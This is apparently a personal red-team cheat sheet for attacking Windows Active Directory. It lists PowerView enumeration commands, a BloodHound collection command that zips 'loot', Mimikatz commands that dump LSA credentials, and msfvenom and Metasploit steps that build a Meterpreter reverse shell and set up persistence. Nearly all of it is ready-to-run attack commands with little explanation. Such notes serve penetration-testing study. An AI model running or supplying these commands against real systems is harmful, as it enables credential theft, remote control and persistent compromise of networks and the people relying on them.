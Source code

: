 ## POWERVIEW
- enumrate domains on windows
  - powershell -ep bypass ==> allow run script
  - . .\PowerView.ps1
- Get-ChildItem function: ==> commands
 - Introduction: https://medium.com/@browninfosecguy/an-introduction-to-powerview-bdfd953f2c4c
   - $scriptFunctions = Get-ChildItem function: | Where-Object { $currentFunctions -notcontains $_ }
   - $scriptFunctions | Format-Wide -Column 4
   - Get-NetDomainController
   - Get-DomainPoliciy
   - get-netuser | select-object displayname,samaccountname  
   - Get-UserProperties -Properties 
   - get-netcomputer
   - [help] get-command
   - get-help Get-NetComputer -examples
   - Get-NetGroupMember
   - Get-NetGPO  / Invoke-ShareFinder = shares

## BLOODHOUND
- graphical interface
- In the target:
  - Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
- in the attacker
  - neo4j console => database
  - bloodhound
    - import looted files

## MIMIKATZ
- dumping credentials   
- mimikatz.exe
  - privilege::debug ==> Check if we are admin
    -lsadump::lsa /patch 


## create reverse shell
- msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe
- use exploit/multi/handler
- use exploit/windows/local/persistence